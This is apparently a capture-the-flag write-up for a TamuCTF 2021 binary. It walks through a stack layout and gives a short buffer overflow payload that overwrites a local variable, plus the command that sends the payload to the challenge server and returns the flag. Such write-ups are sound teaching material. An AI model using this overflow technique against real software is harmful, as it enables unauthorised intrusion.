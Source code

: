 Throw the binary into IDA:

![image-20210429120231451](https://raw.githubusercontent.com/xnyuq/xnyuq.github.io/master/_posts/2021-4-26-TamuCTF-2021.assets/image-20210429120231451.png)

To get the flag, we need to attack the stack buffer overflow in fgets function (accept up to 80 bytes) to overwrite v6 variable's content into ```0x8406688```.

| ↑ Higher Address                             |
| -------------------------------------------- |
| params                                       |
| return address                               |
| saved rbp                &#8592; rbp         |
| *stream                   // rbp - 8h        |
| v6                             // rbp - Ch   |
| s[]                             // rbp - 50h |
| v4[]                           // rbp - 90h  |

Their offsets's difference = 68 bytes (s 's size) so we got the payload (overwrite v6 with little-endianess data)

```python
payload = 'A' * 68 + '\x88\x66\x40\x08'
```

```
$ python -c "print 68*'a'+'\x88\x66\x40\x08'" | openssl s_client -connect tamuctf.com:443 -servername pancake -quiet

depth=0 CN = hulkcybr1
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = hulkcybr1
verify return:1
flag: gigem{b4s1c_b4ff3r_0verfl0w_g03s_y33t}
```
